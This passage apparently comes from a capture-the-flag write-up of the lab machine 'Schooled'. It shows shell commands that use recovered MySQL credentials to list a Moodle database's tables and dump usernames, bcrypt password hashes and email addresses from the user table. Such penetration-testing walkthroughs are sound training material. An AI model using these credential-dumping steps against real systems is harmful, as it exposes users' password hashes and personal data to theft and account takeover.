 Now we can use the creds to look around the mysql database:

```text
[www@Schooled /usr/local/www/apache24/data/moodle]$ /usr/local/bin/mysql -u moodle -pPlaybookMaster2020 -e 'show databases;'
+--------------------+
| Database           |
+--------------------+
| information_schema |
| moodle             |
+--------------------+

[www@Schooled /usr/local/www/apache24/data/moodle]$ /usr/local/bin/mysql -u moodle -pPlaybookMaster2020 -e 'show tables from moodle;'
+----------------------------------+
| Tables_in_moodle                 |
+----------------------------------+
| mdl_analytics_indicator_calc     |
<SNIP>
| mdl_url                          |
| mdl_user                         |
| mdl_user_devices                 |
| mdl_user_enrolments              |
| mdl_user_info_category           |
| mdl_user_info_data               |
| mdl_user_info_field              |
| mdl_user_lastaccess              |
| mdl_user_password_history        |
| mdl_user_password_resets         |
| mdl_user_preferences             |
| mdl_user_private_key             |
+----------------------------------+

[www@Schooled /usr/local/www/apache24/data/moodle]$ /usr/local/bin/mysql -u moodle -pPlaybookMaster2020 -D moodle -e 'select username,password,email from mdl_user;'
+-------------------+--------------------------------------------------------------+----------------------------------------+
| username          | password                                                     | email                                  |
+-------------------+--------------------------------------------------------------+----------------------------------------+
| guest             | $2y$10$u8DkSWjhZnQhBk1a0g1ug.x79uhkx/sa7euU8TI4FX4TCaXK6uQk2 | root@localhost                         |
| admin             | $2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW | jamie@staff.schooled.htb               |
| bell_oliver89     | $2y$10$N0feGGafBvl.g6LNBKXPVOpkvs8y/axSPyXb46HiFP3C9c42dhvgK | bell_oliver89@student.schooled.htb     |
| orchid_sheila89   | $2y$10$YMsy0e4x4vKq7HxMsDk.OehnmAcc8tFa0lzj5b1Zc8IhqZx03aryC | orchid_sheila89@student.schooled.htb   |
<SNIP>
| carter_lianne     | $2y$10$jw.KgN/SIpG2MAKvW8qdiub67JD7STqIER1VeRvAH4fs/DPF57JZe | carter_lianne@staff.schooled.htb       |
| parker_dan89      | $2y$10$MYvrCS5ykPXX0pjVuCGZOOPxgj.fiQAZXyufW5itreQEc2IB2.OSi | parker_dan89@student.schooled.htb      |
| parker_tim89      | $2y$10$YCYp8F91YdvY2QCg3Cl5r.jzYxMwkwEm/QBGYIs.apyeCeRD7OD6S | parker_tim89@student.schooled.htb      |
| pencer            | $2y$10$0aBqz.0PbaD7cMvbx5cqyOFRyhkxy25aTMpJE.tpAKE.oaDTr91hG | pencer@student.schooled.htb            |
+-------------------+--------------------------------------------------------------+----------------------------------------+
```
